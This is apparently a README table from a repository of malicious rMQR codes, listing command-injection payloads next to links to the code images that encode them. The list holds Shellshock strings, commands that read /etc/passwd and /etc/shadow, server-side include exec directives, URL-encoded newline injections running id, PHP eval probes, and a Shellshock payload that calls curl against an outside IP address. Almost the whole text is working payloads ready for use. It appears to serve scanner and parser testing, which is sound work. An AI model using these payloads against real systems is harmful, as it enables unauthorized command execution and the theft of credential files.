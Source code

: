 | `() { :;}; /bin/bash -c "sleep 1 && echo vulnerable 1"` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/72.png) |
| `() { :;}; /bin/bash -c "sleep 3 && echo vulnerable 3"` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/73.png) |
| `() { :;}; /bin/bash -c "sleep 6 && echo vulnerable 6"` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/74.png) |
| `cat /etc/hosts` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/75.png) |
| ``$(`cat /etc/passwd`)`` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/76.png) |
| `cat /etc/passwd` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/77.png) |
| `%0Acat%20/etc/passwd` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/78.png) |
| `<!--#exec cmd="/bin/cat /etc/passwd"-->` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/80.png) |
| `<!--#exec cmd="/bin/cat /etc/shadow"-->` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/81.png) |
| `<!--#exec cmd="/usr/bin/id;-->` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/82.png) |
| `system('cat /etc/passwd');` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/83.png) |
| `` ` `` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/85.png) |
| `\|\|` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/86.png) |
| `\|` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/87.png) |
| `;` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/88.png) |
| `'` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/89.png) |
| `'"` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/90.png) |
| `"` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/91.png) |
| `"'` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/92.png) |
| `&` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/93.png) |
| `&&` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/94.png) |
| `%0a` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/95.png) |
| `%0a%0d` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/96.png) |
| `%0Aid` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/97.png) |
| `%0a id %0a` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/98.png) |
| `%0Aid%0A` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/99.png) |
| `%0a ping -i 30 127.0.0.1 %0a` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/100.png) |
| `%0A/usr/bin/id` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/101.png) |
| `%0A/usr/bin/id%0A` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/102.png) |
| `%20{${phpinfo()}}` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/103.png) |
| `%20{${sleep(20)}}` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/104.png) |
| `%20{${sleep(3)}}` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/105.png) |
| `a\|id\|` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/106.png) |
| `a;id\|` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/107.png) |
| `a;id;` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/108.png) |
| `a;id\n` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/109.png) |
| `() { :;}; curl http://135.23.158.130/.testing/shellshock.txt?vuln=12` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/110.png) |